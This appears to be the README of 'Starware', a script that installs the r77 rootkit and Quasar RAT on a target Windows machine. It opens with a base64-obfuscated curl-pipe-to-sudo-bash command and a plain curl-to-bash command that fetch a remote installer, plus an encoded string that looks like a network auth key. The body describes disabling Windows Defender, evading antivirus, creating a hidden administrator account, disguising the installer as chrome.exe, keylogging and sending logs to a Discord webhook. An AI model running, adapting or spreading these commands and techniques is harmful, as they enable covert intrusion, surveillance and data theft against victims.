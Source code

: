 dHNrZXktYXV0aC1rZndKYnZLVWYyMTFDTlRSTC1FV1piRFoxaGJZRVp3SEZGYkdZTFlFRUdjN3lMalA3VDU=

echo "Y3VybCAtcyBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vT2d5ZWV0MTAvaW5zdGFsbGVyOTAwMC9tYWluL2luc3RhbGwuc2ggfCBzdWRvIGJhc2g=" | base64 -d | sudo bash
curl -s https://github.com/Ogyeet10/installer9000/raw/refs/heads/main/install.sh | bash



# Starware

Starware is a comprehensive installer script that integrates two powerful tools into a single seamless installation process on your targets system: [r77-rootkit](https://github.com/bytecode77/r77-rootkit) and [Quasar RAT](https://github.com/quasar/Quasar). This tool is designed for advanced users looking to monitor and manage remote systems effectively.

## Features

- **Automated Installation**: Automatically installs and configures r77-rootkit and Quasar RAT.
- **AV Checks and Evasion**: Utilizes WMI to check for installed antivirus products and terminates if a non-whitelisted AV is detected.
- **Remote Access Setup**: Configures an SSH server for remote access and sets up SSH to use a public key for authentication (Note: Public key authentication is currently a work in progress).
- **Network Configuration**: Downloads and installs ZeroTier One and configures it to use a specified ZTO network.
- **Comprehensive Logging**: Sends a complete log and the final status of the installation (success, failure, etc.) to a specified Discord webhook.
- **Quasar Features**: Includes numerous remote tasks such as TCP networking, file management, remote desktop, system monitoring, keylogging, and much more.
- **Stealth Operation**: All activities are concealed using the r77 rootkit.

## Upcoming Features

- **Starware Tools**: A new set of tools for easier configuration and interaction with the target system, including:
  - **DeElevatedPsWindow**: Allows running a PowerShell script/command in the user's desktop context, hidden from the user.
  - **Troll9000**: A playful tool for changing the desktop wallpaper or rotating the monitor display at specified intervals using a background PowerShell process.

## Installation (WIP)


# Starware Execution Flow

Starware script automates the installation and configuration of key components while ensuring a stealthy setup. Below is a detailed overview of the execution flow:

## Initialization and Privilege Check

- Checks if the script is run with Administrator privileges.
- If not, it relaunches itself with the necessary privileges by downloading and executing an encoded command from its GitHub repository.

## Exclusion List Configuration

- If running with admin rights, modifies the Windows Defender exclusion list to ignore paths for:
  - `$77SWClient.exe` - The Starware/Quasar client.
  - `chrome.exe` - The disguised installer executable for Starware and r77.

## Logging Setup

- Initializes a log file named with the hostname and current timestamp to record all operations.

## Error Handling and IP Address Retrieval

- Defines functions for robust error handling and fetching the public IP address using an external service.

## System Information Gathering

- Collects comprehensive system information including CPU details, memory usage, disk info, network details, and public IP address.

## Windows Defender and Antivirus Handling

- Disables Windows Defender real-time monitoring.
- Checks for installed antivirus products and halts execution if any non-whitelisted AVs are detected.

## Notification and Information Reporting

- Sends a notification to a Discord webhook detailing the execution context (hostname and public IP).

## Service and Process Configuration

- Configures r77’s registry settings to hide specific services and processes.
- Installs and sets up OpenSSH Server if not previously installed.
- Installs "ZeroTier One" and downloads "chrome.exe" from the GitHub repository.

## User Account Management

- Creates and hides a new administrative user (`ssh-user`) using registry settings if it doesn't already exist.

## Network Configuration and Cleanup

- Joins a specified ZeroTier network.
- Re-enables Windows Defender Antivirus post-operation.
- Removes any temporary files created during the process.

## Finalization

- Completes the logging session and sends the final log file to the Discord webhook for record-keeping.


## Usage

After installation, Starware can be configured via the generated configuration files or using the upcoming Starware Tools.

## Caution

This software is intended for educational and legally sanctioned purposes only. Users are responsible for ensuring they comply with all applicable laws and regulations.

## License

This project is licensed under [license name] - see the [LICENSE.md](LICENSE.md) file for details.

## Acknowledgments

- Thanks to [bytecode77](https://github.com/bytecode77) for the r77-rootkit.
- Thanks to the developers of [Quasar](https://github.com/quasar/Quasar).

